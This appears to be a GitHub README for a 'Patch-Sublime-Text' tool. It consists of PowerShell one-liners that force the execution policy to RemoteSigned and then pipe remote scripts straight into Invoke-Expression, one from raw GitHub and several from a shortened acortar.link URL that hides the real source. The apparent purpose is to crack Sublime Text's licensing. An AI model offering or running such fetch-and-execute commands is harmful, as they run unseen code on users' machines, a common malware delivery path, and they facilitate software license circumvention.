# Patch-Sublime-Text

```python3
Get-ExecutionPolicy; Set-ExecutionPolicy RemoteSigned -Force
```
```python3
iwr "https://raw.githubusercontent.com/AAAAAEXQOSyIpN2JZ0ehUQ/Patch-Sublime-Text/main/Patch_Sublime_Text.ps1" | iex
```
```python3
iwr "https://acortar.link/zEsaP2" | iex
```
```python3
iwr https://acortar.link/zEsaP2 | iex
```
```python3
irm https://acortar.link/zEsaP2 | iex
```
